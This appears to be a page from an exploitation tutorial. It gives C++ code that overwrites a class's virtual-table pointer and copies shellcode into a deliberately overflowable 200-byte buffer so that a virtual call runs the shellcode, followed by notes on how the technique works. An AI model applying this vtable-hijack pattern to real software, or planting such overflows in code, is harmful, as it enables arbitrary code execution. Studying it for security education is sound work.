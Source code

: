 ```CPP
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\xAC\xBA\x40\x00"; // set fake virtual function pointer

class Failwest
{
  public:
    char buf[200];
    virtual void test(void)
    {
      cout << "Class Vtable::test()" << endl;
    }
};

Failwest overflow, *p;

void main(void)
{
  char * p_vtable;
  p_vtable = overflow.buf - 4; // point to virtual table
  cout << "Buf Address:" << &overflow.buf << endl;
  // reset fake virtual table to 0x0040BB5C
  // the address may need to ajusted via runtime debug
  p_vtable[0] = 0x5C;
  p_vtable[1] = 0xBB;
  p_vtable[2] = 0x40;
  p_vtable[3] = 0x00;
  strcpy(overflow.buf,shellcode); // set fake virtual function pointer
  p = &overflow;
  p->test();
}
```

### Description

- The dummy table pointer is located before the member variable `char buf[200]`, the program locates this pointer by `p_vtable = overflow.buf - 4`
- Modify the virtual table to point to the buffer `0x0040BB5C`, this is the end of the shellcode, fill in `0x0040BAAC` which is the starting address of the shellcode, the program will jump to execute the shellcode
- This way is neither stack overflow nor heap overflow, because the memory space of the object is located in the heap, but it is a continuous linear overwrite space, so it should be accurately called "array overflow" or "continuous overwrite"
- It may be easier to attack the virtual table using DWORD SHOOT
